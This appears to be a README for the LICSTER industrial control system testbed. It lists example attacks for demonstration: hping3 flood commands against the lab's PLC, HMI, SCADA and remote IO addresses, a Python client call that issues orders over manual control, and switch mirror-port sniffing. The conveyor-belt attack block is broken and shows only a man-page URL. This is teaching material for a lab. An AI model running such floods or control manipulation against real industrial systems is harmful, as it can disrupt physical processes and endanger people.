

# Attacks 
For the LICSTER testbed, we provide some basic attack examples,
to understand the impacts of ICS attacks.

## Flooding
(hping3)[https://linux.die.net/man/8/hping3] is common tool to send custom TCP/IP packets.
In this scenario, it is used for DoS/flooding attacks.

Flooding of the Remote IOs:
```zsh
sudo hping3 --flood 192.168.0.51
sudo hping3 --flood 192.168.0.52
```

Flooding of the PLC:
```zsh
sudo hping3 --flood 192.168.0.30
```

Flooding of the HMI:
```zsh
sudo hping3 --flood 192.168.0.20
```

Flooding of the SCADA system:
```zsh
sudo hping3 --flood 192.168.0.10
```

## Attack the convey belt
This scenarios will demonstrate, how the convey belt could b inflamed.
For this, start a regular order on the HMI.
After this, the attack can be started:

```zsh
https://linux.die.net/man/8/hping3
```

The convey belt should stop, after the punching process.

## Attack on the manual control
Start python with the corresponding LICSTER client:
```zsh
python3 -i client.py
>>> 
```

E.g. execute an order over python:
```zsh
setOrder(1) 
```

## Using the mirror port
The default IP of the TP-Link switch is (http://192.168.0.1/)[http://192.168.0.1/].
Set the mirror port on PORT 8 and activate mirroring from PORT 1-7.
After this, you can connect to PORT 8 and will see all network traffic of the testbed.

<table align="center"><tr><td align="center" width="9999">
</img>
</td></tr></table>


